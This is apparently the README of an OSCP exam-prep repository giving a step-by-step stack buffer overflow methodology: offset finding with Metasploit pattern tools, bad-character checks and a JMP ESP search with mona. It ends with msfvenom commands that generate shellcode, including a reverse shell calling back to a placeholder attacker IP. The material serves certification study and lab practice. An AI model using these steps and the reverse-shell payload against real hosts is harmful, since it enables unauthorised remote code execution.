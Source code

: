 # Buffer Overflow methodology

![GitHub Repo stars](https://img.shields.io/github/stars/3isenHeiM/OSCP-BoF?style=social) [![GitHub last commit (branch)](https://img.shields.io/github/last-commit/3isenHeiM/OSCP-BoF/master)](https://github.com/3isenHeiM/OSCP-BoF/commits) ![GitHub](https://img.shields.io/github/license/3isenHeiM/OSCP-BoF)


[![Python 3](https://img.shields.io/badge/python-3-blue.svg?logo=python&logoColor=white)](https://www.python.org/downloads/release/python-3/) ![GitHub Workflow Status](https://img.shields.io/github/workflow/status/3isenHeiM/OSCP-BoF/Linting)





[![Twitter Follow](https://img.shields.io/twitter/follow/3isenHeiM?style=social)](https://twitter.com/3isenHeiM)


## Introduction

These are 7 simple python scripts and a methodology **to ease** (not *automate* !) the exploitation.
Each script targets a phase of the exploitation :

1. Trigger the BoF (this is facultative for OSCP since they give you a code snippet)
2. Find the EIP offset
3. Confirm the offset
4. Find the badchars
5. Confirm badchars + find JMP ESP instruction
6. Confirm code execution (pop calc)
7. Exploit host

It's based on the [do stack buffer overflow good](https://github.com/justinsteven/dostackbufferoverflowgood)" project (BTW, it's awesomely explained).

## How to use

Follow each step and you'll be able to craft a working example of a BoF exploitation.

All the specific variable are stored in [1 single resource file](PARAMETERS.py),
to avoid any confusion during the exam.

After each step, fill the proper variables with values found and they'll be re-used for the next step

Note: If after each debug operation performed, the application has become unresponsive; Immunity Debugger should be closed first, then the "vulnapp.exe" application should be restarted, and Attach and Run should be done on Immunity Debugger.

## 0. Pre-start

Fill in the following variables in the [resource file](PARAMETERS.py) depending on the host to attack :
 * ``RHOST`` : the IP address of the host
 * ``RPORT`` : the port on which to access the application to exploit

## 1. Segmentation fault : [1_segfault.py](1_segfault.py)

Send enough length string for victim system crash.

Please note that the total length to input is often given in the exmaple they
provide in the exam.

Note the offeset in ``PARAMETERS.py``, in the variable ``offset_eip``.

## 2. Find the offset : [2_find_offset.py](2_find_offset.py)

Generate the pattern (adapt the buffer lenght) :

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <String_Length>

    buf += ("<PATTERN>")

Put the output into the variable ``buf`` in ``2_find_offset.py`` & send it.

Once the app crashes, note down the value of the EIP register (which is the address of the next operation to be executed).




If needed : convert the EIP value to ASCII : echo "<EIP_value>" | xxd -r -p

Find the offset at which the sequence is met in the pattern :

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_value>

Or, type this in Immunity Debugger : `!mona findmsp`.

Note the value of the EIP offet in the variable ``offset_eip`` in ``PARAMETERS.py``, and the value of the ESP offset in the variable ``offset_esp``.

## 3. Control the EIP : [3_confirm_offset.py](3_confirm_offset.py)

Execute this script as is.

In Immunity Debugger, make sure that
   - **BBBB** in the EIP (in hex, so ``42424242``)
   - **CCCCDDDDD.....** is written in what ESP points to

## 4. Find the bad chars : [4_find_badchars.py](4_find_badchars.py)

Send it to the application

In Immunity Debugger, make mona create a list of badchars :

    !mona bytearray –cpb “\x00”

The console output will tell you where it has been saved.

Compare this file with the stack contents :

    !mona compare -a ESP -f <file_with_bad_chars>
    !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>

**Note: **always use the full path to the file !

In the mona output, ``Possibly bad chars`` are output.
Put them in the ``badchars`` array in ``PARAMETERS.py``.

## 5. Confirm badchars & find a JMP ESP instruction : [5_find_jmp_esp.py](5_find_jmp_esp.py)

### a. Confirm badchars

Make sure the badchars identified are mentionned in the ``PARAMETERS.py`` file.

Execute the script.

Re-generate a badchar sequence on mona :

    !mona bytearray -cpb "\x00\x04\x05\xA2\xA3\xAC\xAD\xC0\xC1\xEF\xF0"

The console output will tell you where it has been saved.

Compare the ``bytearray.bin`` (**use the full filepath**) and the buffer to make sure they are the same.
That will mean that no new badchar have been detected :

    !mona compare -a ESP -f <file_with_bad_chars>
    !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>

The mona output status should be ``unmodified`` and you should get a message in the
console saying : ``!!! Hooray, normal shellcode unmodified !!!``

This mean that no other badchars have been detected.

### b. Find a JMP ESP

Ask mona to find the instruction ``JMP ESP`` that will allow the processor to execute
whatever we have put in the stack.

    !mona jmp -r esp -cpb "<bad_chars>"       formatted like this : "\x00\x01"

Put the address returned in the variable ``ptr_jmp_esp`` in ``PARAMETERS.py``


## 6. Pop calc : [6_pop_calc.py](6_pop_calc.py)

This will confirm the code execution on the target host.
This can be used to validate the build-up of the exploit, and set a working basis.

Launch this to produce the shellcode that will make calc pop on the target :

    msfvenom -p windows/exec -b '<badchars>' -f python --var-name shellcode_calc \
    CMD=calc.exe EXITFUNC=thread

Insert the output (python variable ``shellcode_calc``) in the script ``6_pop_calc.py``.

In the script, we will also move ESP up in the stack (instruction ``SUB ESP,0x10``)
This is to avoid the ESP overwrite by the encoder of the payload.
Some guys use a NOP sled, here is a more proper way ;)

Launch the script and enjoy popping calc!

## 7. Create shellcode : [7_exploit.py](7_exploit.py)

Now, you can craft any other shellcode as long as you respect the badchars :

    msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_Port> \
    -f py -b '<badchars>' -e x86/shikata_ga_nai -var-name shellcode

Insert the output (python variable ``shellcode_calc``) in the script ``7_exploit.py``.
